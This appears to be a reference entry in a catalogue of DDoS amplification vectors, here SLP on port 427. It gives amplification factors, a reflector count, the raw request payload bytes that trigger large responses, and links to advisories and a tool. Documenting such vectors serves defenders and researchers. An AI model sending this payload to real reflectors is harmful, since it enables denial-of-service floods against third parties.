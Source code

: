 # SLP (Service Location Protocol)

## Port: **427**

## Proto: **UDP/TCP**

## Amplification factor: **1.6x and 12x (2,200x when paired with CVE-2023-29552)**

## Reflector count: ~35,000 (April, 2023)

---

### Payload
<pre>\x02\t\x00\x00\x1d\x00\x00\x00\x00\x00s_\x00\x02en\x00\x00\xff\xff\x00\x07default</pre>

### Response
<pre></pre>

Other links:
- https://www.bleepingcomputer.com/news/security/new-slp-bug-can-lead-to-massive-2-200x-ddos-amplification-attacks/
- https://www.netscout.com/blog/asert/slp-reflectionamplification-ddos-attack-vector
- https://curesec.com/blog/article/CVE-2023-29552-Service-Location-Protocol-Denial-of-Service-Amplification-Attack-212.html
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29552/
- https://github.com/curesec/slpload